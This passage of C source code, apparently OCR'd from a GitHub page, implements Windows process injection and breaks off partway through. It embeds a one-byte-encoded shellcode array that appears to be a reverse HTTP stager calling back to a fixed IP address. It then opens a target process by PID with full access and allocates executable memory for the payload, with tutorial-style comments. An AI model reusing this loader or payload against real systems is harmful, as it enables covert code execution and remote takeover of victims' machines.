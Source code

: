        unsigned char data[] = &quot;\xfd\x49\x82\xe5\xf1\xe9\xc9\x1\x1\x1\x40\x50\x40\x51\x53\x50\x57\x49\x30\xd3\x64\x49\x8a\x53\x61\x49\x8a\x53\x19\x49\x8a\x53\x21\x49\x8a\x73\x51\x49\xe\xb6\x4b\x4b\x4c\x30\xc8\x49\x30\xc1\xad\x3d\x60\x7d\x3\x2d\x21\x40\xc0\xc8\xc\x40\x0\xc0\xe3\xec\x53\x40\x50\x49\x8a\x53\x21\x8a\x43\x3d\x49\x0\xd1\x67\x80\x79\x19\xa\x3\x74\x73\x8a\x81\x89\x1\x1\x1\x49\x84\xc1\x75\x66\x49\x0\xd1\x51\x8a\x49\x19\x45\x8a\x41\x21\x48\x0\xd1\xe2\x57\x49\xfe\xc8\x40\x8a\x35\x89\x49\x0\xd7\x4c\x30\xc8\x49\x30\xc1\xad\x40\xc0\xc8\xc\x40\x0\xc0\x39\xe1\x74\xf0\x4d\x2\x4d\x25\x9\x44\x38\xd0\x74\xd9\x59\x45\x8a\x41\x25\x48\x0\xd1\x67\x40\x8a\xd\x49\x45\x8a\x41\x1d\x48\x0\xd1\x40\x8a\x5\x89\x49\x0\xd1\x40\x59\x40\x59\x5f\x58\x5b\x40\x59\x40\x58\x40\x5b\x49\x82\xed\x21\x40\x53\xfe\xe1\x59\x40\x58\x5b\x49\x8a\x13\xe8\x4e\xfe\xfe\xfe\x5c\x6b\x1\x48\xbf\x76\x68\x6f\x68\x6f\x64\x75\x1\x40\x57\x48\x88\xe7\x4d\x88\xf0\x40\xbb\x4d\x76\x27\x6\xfe\xd4\x49\x30\xc8\x49\x30\xd3\x4c\x30\xc1\x4c\x30\xc8\x40\x51\x40\x51\x40\xbb\x3b\x57\x78\xa6\xfe\xd4\xea\x72\x5b\x49\x88\xc0\x40\xb9\x57\x1e\x1\x1\x4c\x30\xc8\x40\x50\x40\x50\x6b\x2\x40\x50\x40\xbb\x56\x88\x9e\xc7\xfe\xd4\xea\x58\x5a\x49\x88\xc0\x49\x30\xd3\x48\x88\xd9\x4c\x30\xc8\x53\x69\x1\x3\x41\x85\x53\x53\x40\xbb\xea\x54\x2f\x3a\xfe\xd4\x49\x88\xc7\x49\x82\xc2\x51\x6b\xb\x5e\x49\x88\xf0\x49\x88\xdb\x48\xc6\xc1\xfe\xfe\xfe\xfe\x4c\x30\xc8\x53\x53\x40\xbb\x2c\x7\x19\x7a\xfe\xd4\x84\xc1\xe\x84\x9c\x0\x1\x1\x49\xfe\xce\xe\x85\x8d\x0\x1\x1\xea\xd2\xe8\xe5\x0\x1\x1\xe9\xa3\xfe\xfe\xfe\x2e\x34\x6f\x6a\x4e\x1\x2\x9b\xf5\xba\xe1\xdc\x3f\x6d\x86\xa4\x4\x4a\x83\x50\x2e\xd4\x69\x66\x14\xd7\xfc\x11\xf2\xa4\x91\x61\xeb\xbb\xff\x1e\x27\x2c\x5\xf2\xed\xca\xd5\x72\x95\x56\x99\x5f\xdf\xed\xb9\x3f\xd8\x4f\x33\xcd\x39\xe2\x95\x7\x1c\x72\x2c\xb2\xd5\x63\x27\xcb\x5b\xaf\x53\xee\xf5\xc1\x80\x76\x96\xcf\xd4\x1\x54\x72\x64\x73\x2c\x40\x66\x64\x6f\x75\x3b\x21\x4c\x6e\x7b\x68\x6d\x6d\x60\x2e\x35\x2f\x31\x21\x29\x62\x6e\x6c\x71\x60\x75\x68\x63\x6d\x64\x3a\x21\x4c\x52\x48\x44\x21\x39\x2f\x31\x3a\x21\x56\x68\x6f\x65\x6e\x76\x72\x21\x4f\x55\x21\x34\x2f\x30\x3a\x21\x55\x73\x68\x65\x64\x6f\x75\x2e\x35\x2f\x31\x3a\x21\x46\x55\x43\x36\x2f\x35\x3a\x21\x48\x6f\x67\x6e\x51\x60\x75\x69\x2f\x33\x28\xc\xb\x1\x60\xe3\x48\x6d\xb4\x30\x93\x21\x18\xc8\xab\x68\x2a\xbd\xc0\x8a\x29\xf8\x81\x6d\x93\xad\xbb\xeb\x7\x33\x4\xc3\x39\x1a\xe\x3f\x84\x38\xc2\x8b\x13\x20\xe6\x50\x81\x81\x31\x3\xe6\xcd\x8e\x35\x39\xd0\xe3\x49\xf1\x29\x20\xe8\xd6\xa7\x46\x59\xf\x49\x8d\x1c\x17\xac\x7c\xac\xbc\xa5\x41\x59\x4a\x5e\x3c\xa8\xd1\x54\x18\xde\x42\xf0\x68\xbb\xd\x80\x6e\x90\x73\x95\xc7\x64\xb5\x8c\x5a\x5\x59\x69\x73\x92\xc2\xbd\x47\x10\xa\xf9\x51\x27\x53\x14\x48\xda\x37\xc\x74\x5c\x80\x5c\x46\x1a\xe\x5f\x24\x51\x35\x22\xc0\x68\xfc\x23\x74\x5c\xeb\xa5\x2f\x41\x99\x13\x73\x8f\xd5\xdf\xee\xf3\x43\xdc\x9\x6a\xa2\x75\x12\x6d\xa8\x83\xfd\x24\xed\xe7\x23\xeb\x9a\x4a\x59\xa9\x84\x66\xa0\x79\x1f\xab\x6\x30\xd6\xce\x4b\x75\xf0\x31\x62\x3f\xf\x5d\x16\x52\x2e\x68\x66\x93\xf9\x29\xff\xd7\x6e\xcf\x7\xc4\xdc\xb3\xc\x70\xf5\xdb\x19\x5f\x27\x1\x40\xbf\xf1\xb4\xa3\x57\xfe\xd4\x49\x30\xc8\xbb\x1\x1\x41\x1\x40\xb9\x1\x11\x1\x1\x40\xb8\x41\x1\x1\x1\x40\xbb\x59\xa5\x52\xe4\xfe\xd4\x49\x92\x52\x52\x49\x88\xe6\x49\x88\xf0\x49\x88\xdb\x40\xb9\x1\x21\x1\x1\x48\x88\xf8\x40\xbb\x13\x97\x88\xe3\xfe\xd4\x49\x82\xc5\x21\x84\xc1\x75\xb7\x67\x8a\x6\x49\x0\xc2\x84\xc1\x74\xd6\x59\x59\x59\x49\x4\x1\x1\x1\x1\x51\xc2\xe9\x9e\xfc\xfe\xfe\x30\x31\x2f\x31\x2f\x31\x2f\x30\x1\x59\x57\x3c\xd3&quot;;
       
      // The PID that you want to use
       int process_id = atoi(argv[1]);
    
      // Declare a new handle as process variable
      // PROCESS_ALL_ACCESS
      HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    
      // If the operation succeeded it will return the handle
      if(process){
        printf(&quot;[+] Handle retrieved successfully!\n&quot;);
    
        // We can print it as pointer using printf
        printf(&quot;[+] Handle value is %p\n&quot;, process);
        
        // Allocate space
        // Define the base_address variable which will save the allocated memory address
    	LPVOID base_address;
        base_address = VirtualAllocEx(process, NULL, sizeof(data), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	if(base_address){
    